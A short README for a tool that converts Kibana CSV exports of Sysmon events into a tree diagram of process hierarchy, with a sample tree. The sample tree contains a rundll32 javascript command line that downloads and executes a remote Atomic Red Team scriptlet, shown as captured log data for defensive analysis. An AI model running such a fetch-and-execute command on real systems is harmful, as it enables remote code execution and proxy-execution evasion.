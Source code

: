 # treeify_sysmon_events

Take in a CSV generated from kibana of your sysmon events, and output a tree style diagram showing the event hierarchy

```
1
└── [N/A] PID: 7652 - Creation Point
    ├── [171,569] PID: 3884 - "C:\Windows\system32\HOSTNAME.EXE"
    ├── [171,570] PID: 2052 - "C:\Windows\system32\whoami.exe"
    └── [171,571] PID: 3180 - "cmd.exe" /c "rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct").Exec();window.close();"
        └── [171,572] PID: 5772 - rundll32.exe  javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct").Exec();window.close();
            ├── [171,573] PID: 1876 - "C:\Windows\System32\notepad.exe" 
            ├── [171,577] Event: network connection
            └── [171,578] Event: DNSEvent
```
numbers in `[]` are the event log ID.

The tree is in timestamped order, with the exception of no process events, which are added after the tree is created.
